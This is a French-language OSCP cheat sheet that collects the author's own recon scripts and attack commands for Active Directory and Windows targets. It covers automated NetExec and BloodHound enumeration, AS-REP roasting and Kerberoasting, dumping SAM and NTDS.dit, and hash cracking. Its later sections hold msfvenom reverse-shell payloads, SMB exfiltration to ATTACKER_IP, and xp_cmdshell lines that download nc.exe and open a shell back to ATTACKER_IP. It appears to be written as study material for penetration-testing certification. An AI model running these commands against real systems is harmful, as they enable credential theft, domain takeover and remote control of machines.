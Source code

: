 # 🏅 OSCP Cheat Sheet

{% hint style="success" %}
Ce document regroupe tout ce que j’ai appris au travers des box et des cours de préparation aux techniques d’exploitation Active Directory. Il reflète mon expérience personnelle et n’engage que moi. Je ne couvre pas ici les techniques les plus avancées, mais vous pouvez vous tourner vers d’autres ressources comme [The Hacker Recipes](https://www.thehacker.recipes/) pour approfondir le sujet.
{% endhint %}

***

## 🔎**Recon**

<details>

<summary>Port scanning and version scraping</summary>

```python
#!/usr/bin/env python3
import argparse
import subprocess
import os
import time
from datetime import datetime

def run_command(command):
    try:
        result = subprocess.run(command, shell=True, check=True, capture_output=True, text=True)
        return result.stdout
    except subprocess.CalledProcessError as e:
        print(f"Erreur lors de l'exécution: {e}")
        return None

def create_output_dir(base_dir="oscp_scans"):
    timestamp = datetime.now().strftime("%Y%m%d_%H%M%S")
    output_dir = f"{base_dir}_{timestamp}"
    os.makedirs(output_dir, exist_ok=True)
    return output_dir

def quick_scan(target, output_dir, scan_type="tcp"):
    print(f"\n[⚡] Début du scan {scan_type.upper()} rapide...")
    output_file = f"{output_dir}/initial_scan_{scan_type}.nmap"
    command = f"nmap -v -n -Pn -sS -T4 --max-retries 1 --min-rate 1000 -p- {target} -oN {output_file}"
    if scan_type == "udp":
        command = f"nmap -v -n -Pn -sU -T4 --max-retries 1 --min-rate 500 -p- {target} -oN {output_file}"
    
    run_command(command)
    return parse_open_ports(output_file)

def parse_open_ports(nmap_file):
    ports = []
    with open(nmap_file, 'r') as f:
        for line in f:
            if '/tcp' in line and 'open' in line:
                ports.append(line.split('/')[0])
            elif '/udp' in line and 'open' in line:
                ports.append(line.split('/')[0])
    return ','.join(ports)

def deep_scan(target, ports, output_dir, scan_type="tcp"):
    if not ports:
        return
    
    print(f"\n[🔍] Scan approfondi {scan_type.upper()} sur les ports: {ports}")
    output_file = f"{output_dir}/deep_scan_{scan_type}.nmap"
    command = f"nmap -v -n -Pn -sCV -T4 -p{ports} {target} -oN {output_file}"
    if scan_type == "udp":
        command = f"nmap -v -n -Pn -sU -sCV -T4 -p{ports} {target} -oN {output_file}"
    
    run_command(command)
    return output_file

def parse_versions(nmap_file, output_dir):
    print(f"\n[📄] Extraction des versions logicielles...")
    versions = []
    
    with open(nmap_file, 'r') as f:
        for line in f:
            if '/tcp' in line or '/udp' in line:
                parts = line.split()
                if len(parts) >= 4:
                    port_proto = parts[0]
                    service = parts[2]
                    version = ' '.join(parts[4:])
                    versions.append(f"{port_proto} - {service} {version}")
    
    version_file = f"{output_dir}/versions.txt"
    with open(version_file, 'w') as f:
        f.write("=== Versions logicielles détectées ===\n\n")
        f.write('\n'.join(versions))
    
    print(f"[✅] Versions sauvegardées dans: {version_file}")

def main():
    parser = argparse.ArgumentParser(description="OSCP Recon Scanner")
    parser.add_argument("target", help="Cible à scanner")
    parser.add_argument("-o", "--output", help="Répertoire de sortie")
    parser.add_argument("--udp", action="store_true", help="Activer le scan UDP")
    args = parser.parse_args()

    output_dir = args.output or create_output_dir()
    open_ports = {'tcp': '', 'udp': ''}

    # Scan TCP
    open_ports['tcp'] = quick_scan(args.target, output_dir, "tcp")
    deep_scan_file = deep_scan(args.target, open_ports['tcp'], output_dir, "tcp")
    
    # Scan UDP si activé
    if args.udp:
        open_ports['udp'] = quick_scan(args.target, output_dir, "udp")
        deep_scan_file = deep_scan(args.target, open_ports['udp'], output_dir, "udp")

    # Extraction des versions
    if deep_scan_file:
        parse_versions(deep_scan_file, output_dir)
    
    print(f"\n[🎉] Scan terminé! Résultats dans: {output_dir}")

if __name__ == "__main__":
    main()
```

</details>

<details>

<summary>AD scanning</summary>

```bash
#!/bin/bash

# Configuration
RED='\033[0;31m'
GREEN='\033[0;32m'
YELLOW='\033[1;33m'
BLUE='\033[0;34m'
CYAN='\033[0;36m'
NC='\033[0m'
OUTPUT_DIR="AD_Recon_$(date +%Y%m%d_%H%M%S)"
mkdir -p $OUTPUT_DIR/{bloodhound,shares,users,services}

# Vérification des dépendances
check_deps() {
    command -v bloodhound-python >/dev/null 2>&1 || echo -e "${RED}[-] bloodhound-python non installé!${NC}"
    command -v jq >/dev/null 2>&1 || echo -e "${RED}[-] jq non installé!${NC}"
}

# Fonction d'énumération SMB avancée
smb_enum() {
    echo -e "\n${CYAN}[=== SMB Enumération ===]${NC}"
    
    # Scan complet SMB
    netexec smb $IP -u $USER -p $PASSWORD -d $DOMAIN --shares --sessions --disks --loggedon-users --users --groups --rid-brute --pass-pol --ntds --kerberos --gpo | tee $OUTPUT_DIR/smb_full.txt
    
    # Extraction des shares accessibles
    grep "READ" $OUTPUT_DIR/smb_full.txt | awk '{print $2}' | sort -u > $OUTPUT_DIR/shares/available_shares.txt
    
    # Téléchargement des shares
    while read share; do
        echo -e "${YELLOW}[*] Téléchargement du share: $share${NC}"
        smbclient -U "$DOMAIN/$USER%$PASSWORD" "//$IP/$share" -c "recurse; prompt; mget *" -Tc $OUTPUT_DIR/shares/${share}_download >/dev/null 2>&1
    done < $OUTPUT_DIR/shares/available_shares.txt
    
    # Vérification des droits d'écriture
    netexec smb $IP -u $USER -p $PASSWORD -d $DOMAIN --spider-share '.*' --check-write | tee $OUTPUT_DIR/shares/writable_shares.txt
}

# Enumération LDAP complète
ldap_enum() {
    echo -e "\n${CYAN}[=== LDAP Enumération ===]${NC}"
    
    # Extraction users avec descriptions
    netexec ldap $IP -u $USER -p $PASSWORD -d $DOMAIN --users --verbose | tee $OUTPUT_DIR/ldap_full.txt
    grep -i "description:" $OUTPUT_DIR/ldap_full.txt | awk -F '│' '{print $3,$5}' | column -t > $OUTPUT_DIR/users/user_descriptions.txt
    
    # Extraction propre des usernames
    netexec ldap $IP -u $USER -p $PASSWORD -d $DOMAIN --users --json | jq -r '.hosts[].users[] | .username' | sort -u > $OUTPUT_DIR/users/all_users.txt
    
    # Trusts et Password Policy
    netexec ldap $IP -u $USER -p $PASSWORD -d $DOMAIN --trusts --password-policy | tee $OUTPUT_DIR/ldap_trusts_pol.txt
}

# Enumération MSSQL
mssql_enum() {
    echo -e "\n${CYAN}[=== MSSQL Enumération ===]${NC}"
    
    netexec mssql $IP -u $USER -p $PASSWORD -d $DOMAIN --query "SELECT name FROM sys.databases" | tee $OUTPUT_DIR/services/mssql_databases.txt
    
    # Test xp_cmdshell
    echo -e "${YELLOW}[*] Test xp_cmdshell${NC}"
    netexec mssql $IP -u $USER -p $PASSWORD -d $DOMAIN --enable-xp-cmdshell
    netexec mssql $IP -u $USER -p $PASSWORD -d $DOMAIN --xp-cmd "whoami /all" | tee $OUTPUT_DIR/services/mssql_xp_cmdshell.txt
}

# Enumération RDP
rdp_enum() {
    echo -e "\n${CYAN}[=== RDP Checks ===]${NC}"
    netexec winrm $IP -u $USER -p $PASSWORD -d $DOMAIN --local-groups --users | tee $OUTPUT_DIR/services/rdp_access.txt
}

# BloodHound Ingestor
bloodhound_enum() {
    echo -e "\n${CYAN}[=== BloodHound Collection ===]${NC}"
    
    if command -v bloodhound-python &> /dev/null; then
        bloodhound-python -c All -u "$USER" -p "$PASSWORD" -d "$DOMAIN" -dc "$IP" --zip --dns-tcp --disable-pooling -o "$OUTPUT_DIR/bloodhound"
        echo -e "${GREEN}[+] Fichiers BloodHound générés dans: $OUTPUT_DIR/bloodhound${NC}"
    else
        echo -e "${RED}[-] bloodhound-python non installé!${NC}"
    fi
}

# Low Hanging Fruits Checks
low_hanging_fruits() {
    echo -e "\n${CYAN}[=== Low Hanging Fruits ===]${NC}"
    
    # Password Policy
    grep "Password Policy" $OUTPUT_DIR/ldap_trusts_pol.txt | tee $OUTPUT_DIR/lhf/password_policy.txt
    
    # AS-REP Roastable Users
    netexec ldap $IP -u $USER -p $PASSWORD -d $DOMAIN --asreproast | tee $OUTPUT_DIR/lhf/asrep_roast.txt
    
    # Admin Access Check
    netexec smb $IP -u $USER -p $PASSWORD -d $DOMAIN --admin-check | tee $OUTPUT_DIR/lhf/admin_access.txt
    
    # MSSQL Admin Check
    netexec mssql $IP -u $USER -p $PASSWORD -d $DOMAIN --is-admin | tee $OUTPUT_DIR/lhf/mssql_admin.txt
    
    # Unconstrained Delegation
    netexec ldap $IP -u $USER -p $PASSWORD -d $DOMAIN --unconstrained | tee $OUTPUT_DIR/lhf/unconstrained_deleg.txt
    
    # GPO vulnérables
    grep -i "vulnerable" $OUTPUT_DIR/smb_full.txt | tee $OUTPUT_DIR/lhf/vuln_gpo.txt
}

# Main
if [ $# -ne 4 ]; then
    echo -e "${RED}Usage: $0 <IP> <USER> <PASSWORD> <DOMAIN>${NC}"
    exit 1
fi

IP=$1
USER=$2
PASSWORD=$3
DOMAIN=$4

check_deps
smb_enum
ldap_enum
mssql_enum
rdp_enum
bloodhound_enum
low_hanging_fruits

# Mise à jour DNS
echo -e "\n${CYAN}[=== DNS Update ===]${NC}"
grep -iE "(Domain|Forest):" $OUTPUT_DIR/ldap_*.txt | awk '{print $NF}' | sort -u | while read domain; do
    echo "$IP $domain" | sudo tee -a /etc/hosts
    echo "$IP $(echo $domain | cut -d'.' -f1)" | sudo tee -a /etc/hosts
    
    # Zone Transfer Test
    dig @$IP $domain axfr | tee $OUTPUT_DIR/dns_zone_transfer.txt
done

# Rapport Final
echo -e "\n${GREEN}[+] Recon complete!${NC}"
echo -e "${CYAN}[*] Points d'intérêt:${NC}"
grep -iHn "vulnerable\|writable\|admin\|asrep\|delegation" $OUTPUT_DIR/*/*.txt
echo -e "\n${GREEN}[+] Les credentials BloodHound: $USER:$PASSWORD${NC}"
```

</details>

<details>

<summary>Common services (SNMP, HTTP, SMB, FTP, SSH, RDP, MYSQL, MSSQL, DNS, SMTP, POP3, IMAP)</summary>

```bash
#!/bin/bash

# Configuration
RED='\033[0;31m'
GREEN='\033[0;32m'
YELLOW='\033[1;33m'
BLUE='\033[0;34m'
CYAN='\033[0;36m'
NC='\033[0m'
OUTPUT_DIR="Service_Scan_$(date +%Y%m%d_%H%M%S)"
mkdir -p $OUTPUT_DIR

# Dictionnaire de services avec commandes associées
declare -A SERVICE_SCANS=(
    ["SNMP"]="snmp_scan"
    ["HTTP"]="http_scan"
    ["SMB"]="smb_scan"
    ["FTP"]="ftp_scan"
    ["SSH"]="ssh_scan"
    ["RDP"]="rdp_scan"
    ["MYSQL"]="mysql_scan"
    ["MSSQL"]="mssql_scan"
    ["DNS"]="dns_scan"
    ["SMTP"]="smtp_scan"
    ["POP3"]="pop3_scan"
    ["IMAP"]="imap_scan"
)

# Fonctions d'énumération par service
snmp_scan() {
    local ip=$1
    echo -e "\n${CYAN}[SNMP] Running scan on $ip${NC}"
    
    # Scan de communauté SNMP
    echo "=== SNMP COMMUNITIES ===" > $OUTPUT_DIR/SNMP.txt
    snmpwalk -v2c -c public $ip 2>/dev/null | tee -a $OUTPUT_DIR/SNMP.txt
    snmp-check -c public -v2c $ip >> $OUTPUT_DIR/SNMP.txt 2>&1
    
    # Recherche de mots-clés
    grep -E -i "version|community|string|vulnerable|Cisco|config" $OUTPUT_DIR/SNMP.txt | sort -u > $OUTPUT_DIR/SNMP_KEYWORDS.txt
}

http_scan() {
    local ip=$1
    echo -e "\n${CYAN}[HTTP] Running scan on $ip${NC}"
    
    # Scan de base
    nikto -h $ip -output $OUTPUT_DIR/HTTP_NIKTO.txt
    whatweb $ip --color=never > $OUTPUT_DIR/HTTP_WHATWEB.txt
    
    # Détection de CMS
    wget -qO- $ip | grep -E -i "wp-content|drupal|joomla|wordpress" >> $OUTPUT_DIR/HTTP_CMS.txt
}

smb_scan() {
    local ip=$1
    echo -e "\n${CYAN}[SMB] Running scan on $ip${NC}"
    
    netexec smb $ip --shares --users --groups --pass-pol > $OUTPUT_DIR/SMB_NETEXEC.txt
    enum4linux -a $ip >> $OUTPUT_DIR/SMB_ENUM4LINUX.txt 2>&1
    
    grep -E -i "READ|WRITE|VERSION|ADMIN|PASSWORD" $OUTPUT_DIR/SMB_*.txt > $OUTPUT_DIR/SMB_KEYWORDS.txt
}

# ... (autres scan à ajouter plus tard)

main() {
    echo -e "${GREEN}=== Service Enumeration Tool ===${NC}"
    read -p "Target IP/Host: " TARGET
    echo -e "${YELLOW}Available services: ${!SERVICE_SCANS[@]}${NC}"
    read -p "Enter services (comma-separated): " SERVICES
    
    IFS=',' read -ra SERVICE_LIST <<< "$SERVICES"
    
    for service in "${SERVICE_LIST[@]}"; do
        service=$(echo $service | xargs) # Nettoyage
        if [[ -n "${SERVICE_SCANS[$service]}" ]]; then
            ${SERVICE_SCANS[$service]} $TARGET
        else
            echo -e "${RED}[!] Service non supporté: $service${NC}"
        fi
    done
    
    generate_report
}

generate_report() {
    echo -e "\n${GREEN}=== Scan Report ===${NC}"
    echo -e "Target: $TARGET"
    echo -e "Services scannés: ${SERVICE_LIST[@]}"
    
    # Résumé des findings
    grep -EH -i "vulnerable|admin|password|version|CVE-" $OUTPUT_DIR/*.txt > $OUTPUT_DIR/CRITICAL_FINDINGS.txt
    grep -H -i "user" $OUTPUT_DIR/*.txt > $OUTPUT_DIR/USER_FINDINGS.txt
    
    echo -e "\n${CYAN}[!] Points critiques (Vérifier CRITICAL_FINDINGS.txt):${NC}"
    cat $OUTPUT_DIR/CRITICAL_FINDINGS.txt | awk '!seen[$0]++'
    
    echo -e "\n${GREEN}[+] Scan complet. Résultats dans: $OUTPUT_DIR${NC}"
}

# Démarrage
main
```

</details>

## **🛡️ Active Directory Cheat Sheet**

### 📌 Reconnaissance & Énumération

<details>

<summary>🔍LDAP <strong>Enumeration</strong></summary>

*   **Énumération LDAP anonyme**

    ```bash
    ldapsearch -v -x -b "DC=<DOMAIN>,DC=com" -H "ldap://<IP>" "(objectclass=*)"
    ```
*   **Énumération LDAP auth (LAPS Password)**

    ```bash
    ldapsearch -x -H "ldap://<IP>" -D "<DOMAIN>\<USER>" -w "<PASSWORD>" -b "DC=<DOMAIN>,DC=com" "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
    ```
*   **Énumération with Windapsearch**

    ```bash
    ./windapsearch.py --dc-ip <IP> -u "" -U
    ```
*   **Extraction of users and descriptions via NetExec**

    ```bash
    #users
    nxc ldap $ip -u $user -p $password --users
    #desc
    nxc ldap "<DC>" -d "<DOMAIN>" -u "<USER>" -p "<PASSWORD>" -M get-desc
    ```
*   **Testing if an account exists without kerberos protocol**

    ```bash
    nxc ldap 192.168.1.0/24 -u users.txt -p '' -k
    #mode 18200 hashcat
    ```
*   **Asreproasting**

    ```bash
    nxc ldap 192.168.0.104 -u harry -p '' --asreproast output.txt
    ```
*   **Kerberoasting**

    ```bash
    nxc ldap 192.168.0.104 -u harry -p pass --kerberoasting output.txt
    #mode 13100 hashcat
    ```
*   **Bloodhound collector**

    ```bash
    nxc ldap <ip> -u user -p pass --bloodhound --collection All
    ```

Rest later

</details>

<details>

<summary>📂 SMB Enumeration</summary>

*   **List SMB Shares and users**

    ```bash
    crackmapexec smb <IP> --shares -u <USER> -p <PASSWORD> --users
    # command to get clean users.txt -> awk '{print $5}' > users.txt
    ```
*   **Brute force RID for user enumeration**

    ```bash
    nxc smb <IP> -u '' -p '' --rid-brut
    ```
*   **List SMB shares anonymous**

    ```bash
    smbclient -L //<IP> -N
    ```
*   **Dumping all files in the share**

    ```bash
    nxc smb 10.10.10.10 -u 'user' -p 'pass' -M spider_plus -o DOWNLOAD_FLAG=True
    ```
*   **Dump SAM with admin privileges (--local-auth possible)**

    ```bash
    nxc smb 192.168.1.0/24 -u UserName -p 'PASSWORDHERE' --sam
    ```
*   **Dump NTDS.dit with DomainAdmin or Local Admin**

    ```bash
    nxc smb 192.168.1.100 -u UserName -p 'PASSWORDHERE' -M ntdsutil
    ```

There are plenty of Credentials discovery commands, no need to put everything, commands here: [https://www.netexec.wiki/smb-protocol/obtaining-credentials](https://www.netexec.wiki/smb-protocol/obtaining-credentials)

</details>

####

#### 🎯 **Droits Windows (Privilege Escalation)**

* **SeBackupPrivilege** → Lire des fichiers normalement inaccessibles
* **SeRestorePrivilege** → Écraser des fichiers protégés
* **SeImpersonatePrivilege** → Exploitable avec JuicyPotato pour devenir SYSTEM
* **SeLoadDriverPrivilege** → Charger des drivers malveillants

***

### 💥 Cracking des Hashes

*   **NTLM**

    ```bash
    hashcat -m 1000 -a 3 hash.txt
    ```
*   **NetNTLMv1**

    ```bash
    hashcat -m 5500 -a 3 hash.txt
    ```
*   **NetNTLMv2**

    ```bash
    john --format=netntlmv2 hash.txt
    ```
*   **SPN Hash (Kerberoasting)**

    ```bash
    hashcat -m 13100 -a 0 spn.txt rockyou.txt
    ```

***

### 🚀 Payloads & Reverse Shells

*   **Windows Meterpreter**

    ```bash
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ATTACKER_IP> LPORT=<PORT> -f exe > shell.exe
    ```
*   **Windows Shell Staged**

    ```bash
    msfvenom -p windows/shell/reverse_tcp LHOST=<ATTACKER_IP> LPORT=<PORT> -f exe > shell.exe
    ```
*   **PowerShell Reverse Shell**

    ```bash
    msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<ATTACKER_IP> LPORT=<PORT> -f psh-cmd
    ```

***

### 🔄 Transfert de Fichiers

*   **Serveur HTTP Python**

    ```bash
    python3 -m http.server 80
    ```
*   **Télécharger un fichier via PowerShell**

    ```powershell
    powershell -c "Invoke-WebRequest -Uri 'http://<ATTACKER_IP>/file.exe' -OutFile 'C:\Users\Public\file.exe'"
    ```
*   **Exfiltration via SMB**

    ```bash
    smbclient //<ATTACKER_IP>/SHARE -U "USER" -c "put file.exe"
    ```

***

### 🏴‍☠️ Post-Exploitation

*   **Changement du mot de passe via RPC**

    ```bash
    setuserinfo <USER> 23 'NewPassword123!'
    ```
*   **Utilisation d’un ticket Kerberos pour MSSQL**

    ```bash
    export KRB5CCNAME=$PWD/Administrator.ccache
    ```
*   **Téléchargement de Netcat via MSSQL**

    ```bash
    xp_cmdshell "curl http://<ATTACKER_IP>/nc.exe -o c:\temp\nc.exe"
    ```
*   **Reverse Shell via MSSQL**

    ```bash
    xp_cmdshell "c:\temp\nc.exe <ATTACKER_IP> <PORT> -e cmd.exe"
    ```
